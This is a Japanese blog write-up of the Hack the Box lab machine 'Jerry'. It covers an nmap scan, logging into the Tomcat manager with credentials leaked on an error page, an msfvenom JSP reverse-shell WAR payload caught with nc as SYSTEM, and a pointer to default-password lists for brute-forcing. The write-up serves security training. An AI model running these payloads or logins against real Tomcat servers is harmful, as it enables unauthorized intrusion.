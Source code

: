 ```yaml
---
title: "【Hack the Box write-up】Jerry"
date:  "2020-05-22T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Jerry"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-05-22 14.54.05.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/97a1b7d6-4cba-5abc-fa38-ac13aab91be3.png)

easy の中でもかなり簡単な部類です。（Hack the Box 久々なのでリハビリがてらということで…

## nmap

```
kali@kali:~$ nmap -sV -sC 10.10.10.95 -Pn
Starting Nmap 7.80 ( https:/ map.org ) at 2020-05-22 01:49 EDT
Nmap scan report for 10.10.10.95
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https:/ map.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.78 seconds

```

## 8080ポート見てみる

![スクリーンショット 2020-05-22 16.58.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f58acf6d-4b2f-0f5c-3519-3f88bb5cb8b2.png)

Manager App が怪しそうなので見てみます、Basic 認証が出てきますが適当に打ち込んで外しました。
![スクリーンショット 2020-05-22 17.06.37.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/03f54edf-6280-5f30-236e-c55821f4c501.png)
エラーページになんか user と password っぽいの見えてね…？

ということでキャッシュ削除して見えてた user/pass で入ると
![スクリーンショット 2020-05-22 17.09.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/670571cd-4e76-43be-5343-b6d4adf9fdaa.png)

入れました。

## msfvenom

![スクリーンショット 2020-05-22 20.19.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f61b3de0-1e3f-fb54-b875-f4fb0997ec58.png)

war をあげれそうなので msfvenom で payload 生成します

```
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=1212 -f war > paypay.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes

```
これを upload します

nc で待ち受けると…

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
一気に admin で取れちゃいました

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,919,424 bytes free
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
********************************

root.txt
********************************

```

flag も 2 つ一気に取れちゃいましたね

## 終わりに
流石に簡単でした。
今月の目標はできる限り metasploit を使わないです

## 他のwriteupみてて参考になりそうだったもの
tomcat の defaultpasslist
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
hydra とか使えば 403 ページで user/pass 見えてなくても（or 見えてることに気づかなくても）サクッと bruteforce できそう

 
